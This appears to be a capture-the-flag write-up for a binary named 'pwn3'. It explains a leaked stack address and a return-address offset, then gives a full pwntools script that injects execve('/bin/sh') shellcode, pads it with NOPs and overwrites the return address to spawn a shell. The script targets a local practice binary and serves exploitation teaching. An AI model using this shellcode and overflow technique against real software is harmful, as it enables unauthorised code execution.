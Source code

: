# App

![image](https://user-images.githubusercontent.com/115867891/206482114-72b55f3b-3812-4bbc-badd-e888fa97cf74.png)

Has `PIE`, so we need a leak.

# Dissasembly

Luckily, this is exactly like `Pilot CTF` so it leaks an address for us.

![image](https://user-images.githubusercontent.com/115867891/206482264-0d9e20d3-3ee2-42ee-b294-77769aa121f1.png)

The only difference is the offset, which is 0x12A till EBP + 4 (EBP) until RET ADDR = 0x12E.

# Exploit

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print(target.recvuntil("journey "))

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip(b"!\n"), 16)
print(shellcodeAdr)

# Make the payload
payload = b""

buf =  b""
buf += b"\x31\xc9\xf7\xe1\xb0\x0b\x68\x2f\x73\x68\x00\x68\x2f"
buf += b"\x62\x69\x6e\x89\xe3\xcd\x80"
                                        
# Pad the rest of the space to the return address with zeroes

payload += buf

payload += b"\x90" * (0x12e - len(payload))	# 0x15 is shellcode length
# Overwrite the return address with the leaked address which points to the start of our shellcode

payload += p32(shellcodeAdr)

print("Size : ", hex(len(payload)))
# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()

```

![image](https://user-images.githubusercontent.com/115867891/206485553-086f2355-0d7e-49c5-b352-6c8230a84e02.png)

